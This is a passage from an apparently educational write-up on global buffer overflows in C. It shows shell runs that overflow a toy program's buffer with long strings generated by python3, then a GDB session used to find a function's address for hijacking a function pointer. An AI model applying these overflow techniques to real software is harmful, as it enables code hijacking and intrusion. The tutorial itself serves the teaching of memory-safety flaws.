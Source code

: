 ```
$ ./gbo `python3 -c "print('x' * 2**12)"`
buffer address = 0x601070
allocated address = 0x773010
allocated address - buffer address = 1515424
allocated (before) = test
Segmentation fault (core dumped)
```

Here we are trying to put a string of 4096 symbols 'x' to `buffer` which overflows it. `allocated` address is 0x773010, but it changes every time when the program runs because of dynamic memory allocation. Note that the difference between addresses is much bigger (1515424) than 4096. As a result, it crashes because we're trying to write to an invalid address. It doesn't look to be possible to overwrite objects on the heap if we can overflow a global buffer. But it may be possible just to crash an application.

### Overwriting a function pointer in global memory

A function pointer contains an address to a function. A function pointer can be used to call a function. Pretty straightforward. Here is a simple example with overwriting a function pointer:

<script src="https://gist.github.com/artem-smotrakov/b5ec30cd841cac298d60fbf39e43a5b7.js"></script>

The program is similar to the example above with `access` flag, but instead of setting a flag it plays with a function pointer. First, the function pointer is not initialized. Next, it puts an address of `do_something` to `func` pointer. If specified password is correct, it puts an address of `print_secret` function to `func` pointer. Finally, it calls a function which address was placed to `func`.

`strcpy` call overflows `buffer` if specified command line option is more than 15 symbols (`strcpy` adds \0 to the end of the string). Since both `func` and `buffer` are not initialized, they live in the same data segment for uninitialized data. As a result, we can overwrite&nbsp;function pointer `func`:

```
$ gcc -g gbo.c -o gbo
$ ./gbo `python3 -c "print('w' * 256)"`
Segmentation fault (core dumped)
```

We just overwrote the function pointer `func` with 0x77777777 address (0x77 is ASCII code of 'w'). Then, the program tried to call a function on this address. Since the function pointer points to an invalid address, it resulted to a segfault. But just a crash is not fun. It's more interesting to make the program run what we want. Let's make it call `print_secret` function even if we pass a wrong password. First, we should figure out what the address of `print_secret` function is. GDB can help us here:

```
$ gdb --args ./gbo test
Reading symbols from ./gbo...done.
(gdb) break gbo.c:36
Breakpoint 1 at 0x40068c: file gbo.c, line 36.
(gdb) run
Starting program: /home/artem/tmp/gbo test

Breakpoint 1, main (argc=2, argv=0x7fffffffdcf8) at gbo.c:36
36 func();
(gdb) p func
$1 = (void (*)(void)) 0x7777777777777777
(gdb) p print_secret 
$2 = {void (void)} 0x400607 
(gdb) quit
```
